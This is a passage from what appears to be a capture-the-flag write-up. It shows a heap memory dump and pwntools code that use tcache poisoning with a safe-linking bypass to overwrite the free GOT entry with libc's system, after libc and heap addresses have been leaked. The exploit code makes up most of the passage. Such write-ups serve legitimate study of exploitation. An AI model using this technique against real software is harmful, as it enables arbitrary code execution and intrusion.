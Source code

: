 ```py
0x13f6520	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX
0x13f6530	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX
0x13f6540	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX
0x13f6550	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX
0x13f6560	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX
0x13f6570	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX
0x13f6580	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX
0x13f6590	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX
0x13f65a0	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX
0x13f65b0	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX
0x13f65c0	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX
0x13f65d0	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX
0x13f65e0	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX
0x13f65f0	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX
0x13f6600	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX
0x13f6610	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX
0x13f6620	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX
0x13f6630	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX
0x13f6640	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX
0x13f6650	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX
0x13f6660	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX
0x13f6670	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX
0x13f6680	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX
0x13f6690	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX
0x13f66a0	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX
0x13f66b0	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX
0x13f66c0	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX
0x13f66d0	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX
0x13f66e0	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX
0x13f66f0	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX
0x13f6700	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX
0x13f6710	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX
0x13f6720	0x5858585858585858	0x0a58585858585858	XXXXXXXXXXXXXXX.
0x13f6730	0x00000000013f4ce6	0xdc8340f7dfc0b0e1	.L?..........@..	 <-- tcachebins[0x410][0/7] [chunk9]
"""

```

Then here we are, we leaked both libc and heap base addresses. We just have to to tcache poisoning on `free`.

## Tcache poisoning + PROFIT

We overflow the `8`-th chunk to overwrite the next freepointer of `chunk9` that is stored at the HEAD of the `0x410` tcachebin. Then we got an arbitrary write.
We craft a nice header to be able to request it back from the tcache, and we encrypt the `next` with the location of the `chunk9` to pass safe-linking checks.

Given we hiijack GOT we initialized properly some pointers around to avoid segfaults. We do not get a write into the GOT entry of `free` cause it is unaliagned and `malloc` needs `16` bytes aligned next free pointer.
```py
edit(11, b"", b"", b"", 1337, b"X"*(1032 - 64) + pwn.p64(0x411) + pwn.p64(((heap + 0x2730) >> 12) ^ (exe.got.free - 0x8)))

# dumb
add(12, 1032, b"", b"", b"", 1337, b"")

io.sendlineafter(b"5 re-age user\n", b"1")
io.sendlineafter(b"index: \n", str(13).encode())
io.sendlineafter(b"Enter size (1032 minimum): \n", str(1032).encode())
io.sendafter(b"Input firstname: \n", pwn.p64(libc.address + 0xbbdf80))
io.sendafter(b"Input middlename: \n", pwn.p64(libc.sym.system))
```